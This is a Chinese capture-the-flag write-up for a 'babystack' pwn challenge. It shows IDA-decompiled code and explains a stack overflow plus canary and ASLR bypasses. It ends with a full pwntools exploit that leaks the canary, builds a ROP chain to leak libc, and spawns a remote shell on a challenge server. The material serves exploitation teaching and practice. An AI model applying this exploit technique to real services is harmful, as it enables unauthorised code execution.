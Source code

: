 ```yaml
---
layout: post
title:  pwn1
date:   2020-09-28 00:01:01 +0300
image:  2020-09-28-piano.jpg
tags:   [ctf,pwn,厦门邀请赛]
---
```


查看文件信息

![]({{site.baseurl}}/img/2020-09-28-check.jpg)

ida查看main函数

```assembly
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v3; // eax
  char s; // [rsp+10h] [rbp-90h]
  unsigned __int64 v6; // [rsp+98h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  memset(&s, 0, 0x80uLL);
  while ( 1 )
  {
    sub_4008B9();
    v3 = sub_400841();
    switch ( v3 )
    {
      case 2:
        puts(&s);
        break;
      case 3:
        return 0LL;
      case 1:
        read(0, &s, 0x100uLL);
        break;
      default:
        sub_400826("invalid choice");
        break;
    }
    sub_400826((const char *)&unk_400AE7);
  }
}
```

memset为s变量分配空间。

case1中的read有明显的溢出漏洞可以利用。

查看sub_4008B9()函数

```assembly
__int64 sub_4008B9()
{
  sub_400826("--------");
  sub_400826("1.store");
  sub_400826("2.print");
  sub_400826("3.quit");
  sub_400826("--------");
  return sub_4007F7(">> ");
}
```

查看sub_400841()函数

```assembly
int sub_400841()
{
  char s; // [rsp+10h] [rbp-30h]
  unsigned __int64 v2; // [rsp+38h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&s, 0, 0x20uLL);
  if ( (signed int)read(0, &s, 0x20uLL) <= 0 )
    exit(1);
  return atoi(&s);
}
```

read读入选择执行的序号。

由于存在canary保护，需要先得到canary,

由于开启了ASLR，所以需要构造ROP链。

ASLR（地址随机化）是一种针对缓冲区溢出的安全保护技术，通过对堆、栈、共享库映射等线性区布局的随机化，通过增加攻击者预测目的地址的难度，防止攻击者直接定位攻击代码位置，达到阻止溢出攻击的目的。但是，地址随机化不是对所有模块和内存区都进行随机化。虽然libc、栈、堆的加载位置被随机化，但主镜像不会。

通过puts()函数输出泄露得到puts函数在程序运行时的地址，从而计算出libc的基地址，进而计算出"/bin/sh"的地址。

在做题过程中遇到一个小问题，没有分清ljust()和rjust().

This function rjust returns a new string of specified length with right-justified source string. We can specify the character to use for the padding, the default is whitespace. If the specified length is smaller than the source string, then the source string is returned.

Python string ljust() is very similar to the rjust() function. The only difference is that the original string is left-justified. 

If you want center-aligned string then you can use Python String center() function.

-----------------------------------

!!!在这里我还不明白为什么每次sendlind（payload）之后，都要执行case 3来return 0LL。

------------------------------------------------

exp

```assembly
from pwn import *

io = remote("220.249.52.133",37853)

elf = ELF("babystack")
libc = ELF("libc-2.23.so")

io.sendlineafter(">> ","1")
payload = "A" * 0x88
io.sendline(payload)
io.sendlineafter(">> ","2")
io.recvuntil("A"*88+"\n")
canary = u64(io.recv(7).rjust(8,"\x00"))
print("canary->",hex(canary))

pop_rdi = 0x00400A93
puts_got = elf.got["puts"]
puts_plt = elf.plt["puts"]
# print("puts_got->",hex(puts_got))
# print("puts_plt->",hex(puts_plt))
main_addr = 0x00400908
payload1 = "A" * 0x88 + p64(canary) + p64(0x01314520) + p64(pop_rdi) + p64(puts_got)
payload1 += p64(puts_plt) + p64(main_addr)
#这里是调用puts_plt把puts_got的地址打印出来

io.sendlineafter(">> ","1")
io.sendline(payload1)
io.recv()
io.sendlineafter('>> ','3')
puts_addr = u64(io.recv(8).ljust(8,"\x00"))
print("puts_addr->",hex(puts_addr))
base = puts_addr - libc.symbols["puts"]
# print("base->",hex(base))
bin_sh_addr = base + 0x45216

payload2 = "A" * 0x88 + p64(canary) + p64(0x01314520) + p64(bin_sh_addr)
io.sendlineafter(">> ","1")
io.sendline(payload2)
io.sendlineafter('>> ','3')

io.interactive()
```

